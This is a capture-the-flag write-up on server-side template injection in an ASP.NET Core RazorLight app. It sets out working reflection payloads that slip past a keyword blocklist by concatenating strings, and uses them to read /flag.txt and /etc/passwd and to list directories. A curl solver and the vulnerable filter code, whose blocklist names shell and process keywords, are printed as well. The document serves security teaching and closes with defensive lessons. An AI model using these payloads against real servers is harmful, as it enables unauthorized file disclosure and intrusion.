


# SecureMessenger — Writeup

**Category:** Web
**Flag:** `Pioneers25{R4z0rrrr_T3mpl4te_inj3ct1on_1s_H3re}`

---

## Challenge Overview

SecureMessenger is an ASP.NET Core web application that provides a template preview feature using the RazorLight templating engine. Users can submit custom templates that get rendered server-side. While the application implements security filters to block dangerous keywords, these filters can be bypassed using .NET reflection techniques.



---

## Deployment

### Docker (Recommended)

```bash
docker build -t securemessenger .
docker run -p 8080:8080 securemessenger
```

The challenge will be available at `http://localhost:8080`.

### Local Development

```bash
dotnet restore
dotnet run
```

---

## Reconnaissance & Blackbox Testing

### 1. Exploring the Application

Upon visiting the application, we're presented with a template editor where we can submit custom Razor templates for preview. The application renders our input server-side and displays the result.



### 2. Testing for Template Injection

Let's test if the application processes template expressions:

**Test 1: Basic Math Expression**
```
@(7*7)
```

**Response:**
```
49
```

✅ Template expressions are evaluated! This is a Server-Side Template Injection (SSTI) vulnerability.

**Test 2: Accessing .NET Types**
```
@(typeof(string))
```

**Response:**
```
System.String
```

We can access .NET types through the `typeof()` operator.

**Test 3: Attempting to Read Files**
```
@System.IO.File.ReadAllText("/etc/passwd")
```

**Response:**
```
⚠ Error: Blocked keyword detected.
```

There's a security filter blocking dangerous keywords.

### 3. Enumerating the Blacklist

Through systematic testing, we discover these patterns are blocked:

```bash
# These all trigger "Blocked keyword detected"
@using
@{
System.IO
File
ReadAllText
Process
Environment
```

Testing with variations:
```
@System.IO               # Blocked
@(System.IO)             # Blocked
System.IO.File           # Blocked
File.ReadAllText         # Blocked
```

The filter performs substring matching on the raw input.

### 4. Finding the Bypass: Reflection

Since we can use `typeof()` to access types, let's try using .NET reflection to access `System.IO.File` indirectly:

**Test: Accessing Type via Assembly**
```
@(typeof(string).Assembly.GetType("System.IO.File"))
```

**Response:**
```
System.IO.File
```

✅ We can access the `File` type without using the literal string "System.IO" or "File" in a way the filter detects!

**Test: String Concatenation to Build Type Names**
```
@(typeof(string).Assembly.GetType("System." + "IO." + "File"))
```

**Response:**
```
System.IO.File
```

✅ String concatenation bypasses the keyword filter!

### 5. Crafting the Working Payload

Using reflection to dynamically access `System.IO.File.ReadAllText`:

```razor
@(
    typeof(string).Assembly
    .GetType("System." + "IO." + "Fi" + "le")
    .GetMethod("Read" + "All" + "Text", new[]{typeof(string)})
    .Invoke(null, new object[]{ "/flag.txt" })
)
```

**Testing the payload:**

**Response:**
```
Pioneers25{R4z0rrrr_T3mpl4te_inj3ct1on_1s_H3re}
```

✅ **Success!** The flag is retrieved.

---

## Exploitation Summary

### How the Bypass Works

1. **`typeof(string).Assembly`** — Gets the core .NET assembly containing `System.IO.File`
2. **`.GetType("System." + "IO." + "Fi" + "le")`** — Uses string concatenation to construct `"System.IO.File"` dynamically
3. **`.GetMethod("Read" + "All" + "Text", ...)`** — Gets the `ReadAllText` method by building its name through concatenation
4. **`.Invoke(null, new object[]{ "/flag.txt" })`** — Invokes the static method with `/flag.txt` as the argument

### Filter Bypass Breakdown

| Blocked Keyword | Bypass Technique | Result |
|---|---|---|
| `"System.IO"` | `"System." + "IO."` | String not detected by filter |
| `"File"` | `"Fi" + "le"` | String not detected by filter |
| `"ReadAllText"` | `"Read" + "All" + "Text"` | String not detected by filter |

---

## Understanding the Source Code Vulnerabilities

Now let's examine the source code to understand why our reflection-based bypass worked.

### The Security Filter Implementation

**Location:** `TemplateSecurity.cs`

```csharp
public class TemplateSecurity
{
    private static readonly string[] BlockedKeywords = {
        // Razor structure restrictions
        "@using", "@{",

        // Direct file access (force reflection)
        "System.IO", "File", "ReadAllText", "ReadAllBytes", "Directory",

        // No RCE
        "Process", "Diagnostics", "Start(", "cmd", "powershell", "bash", "/bin/", "sh -c",

        // No environment pivot
        "Environment", "AppDomain", "DllImport", "Marshal"
    };

    public static bool IsSafe(string template)
    {
        // Simple substring check on raw input
        foreach (var keyword in BlockedKeywords)
        {
            if (template.Contains(keyword, StringComparison.OrdinalIgnoreCase))
            {
                return false;
            }
        }

        // Length restriction
        if (template.Length > 1200) return false;

        // Parenthesis depth check (anti-nesting)
        int depth = 0, maxDepth = 0;
        foreach (char c in template)
        {
            if (c == '(') depth++;
            if (c == ')') depth--;
            maxDepth = Math.Max(maxDepth, depth);
        }
        if (maxDepth > 14) return false;

        return true;
    }
}
```

**Why this filter is flawed:**
- Performs **substring matching on raw input** only
- Doesn't analyze the **semantic meaning** or execution flow
- Can't detect dynamically constructed strings via concatenation
- No runtime sandboxing or type access restrictions

### The Vulnerable Endpoint

**Location:** `Controllers/TemplateController.cs`

```csharp
[HttpPost("preview")]
public async Task<IActionResult> Preview([FromBody] TemplateRequest request)
{
    if (!TemplateSecurity.IsSafe(request.Template))
    {
        return BadRequest("Blocked keyword detected.");
    }

    try
    {
        // RazorLight renders template with FULL .NET access
        var engine = new RazorLightEngineBuilder()
            .UseMemoryCachingProvider()
            .Build();

        string result = await engine.CompileRenderStringAsync(
            "template",
            request.Template,
            new { }
        );

        return Ok(new { preview = result });
    }
    catch (Exception ex)
    {
        return StatusCode(500, "Template compilation or runtime error.");
    }
}
```

**Critical issues:**
1. RazorLight templates have **full access to the .NET runtime** by default
2. No sandboxing or restricted execution environment
3. The filter only checks the raw template string before compilation
4. At runtime, string concatenations are evaluated and reflection can access any type

### Attack Chain via Reflection

Our payload works because:

```csharp
typeof(string).Assembly              // Get mscorlib/System.Private.CoreLib
.GetType("System." + "IO." + "Fi" + "le")    // ← Filter sees: "System." "IO." "Fi" "le" separately
.GetMethod("Read" + "All" + "Text", ...)     // ← Filter sees: "Read" "All" "Text" separately
.Invoke(null, new object[]{ "/flag.txt" })
```

1. The filter checks the raw string and sees `"System."`, `"IO."`, `"Fi"`, `"le"` as **separate parts** of different expressions
2. At **runtime**, these are concatenated to form `"System.IO.File"` after the security check
3. Reflection's `GetType()` and `GetMethod()` accept any string, allowing us to bypass literal keyword checks

---

## Error Handling Analysis

The application implements generic error messages to prevent information leakage:

- **"Blocked keyword detected."** — Security filter rejection
- **"Compilation error."** — Template syntax error
- **"File not found."** — File path doesn't exist
- **"Runtime error."** — Any other exception

This makes exploitation slightly harder, but the reflection technique works reliably.

---

## Alternative Payloads

### Reading arbitrary files:

```razor
@(
    typeof(string).Assembly
    .GetType("System." + "IO." + "Fi" + "le")
    .GetMethod("Read" + "All" + "Text", new[]{typeof(string)})
    .Invoke(null, new object[]{ "/etc/passwd" })
)
```

### Listing directory contents:

```razor
@(
    typeof(string).Assembly
    .GetType("System." + "IO." + "Director" + "y")
    .GetMethod("Get" + "Files", new[]{typeof(string)})
    .Invoke(null, new object[]{ "/" })
)
```

---

## Automated Solver

```bash
curl -X POST http://localhost:8080/Preview \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data-urlencode "template=@( typeof(string).Assembly .GetType(\"System.\" + \"IO.\" + \"Fi\" + \"le\") .GetMethod(\"Read\" + \"All\" + \"Text\", new[]{typeof(string)}) .Invoke(null, new object[]{ \"/flag.txt\" }) )"
```

---

## Key Takeaways

- **Keyword-based filtering is insufficient** — String concatenation and reflection can bypass simple blocklists
- **.NET reflection provides powerful capabilities** — Attackers can access any type or method dynamically
- **Template engines must be sandboxed** — RazorLight allows full .NET access by default
- **Defense-in-depth is critical** — Filters should operate at multiple layers (AST parsing, runtime restrictions, etc.)
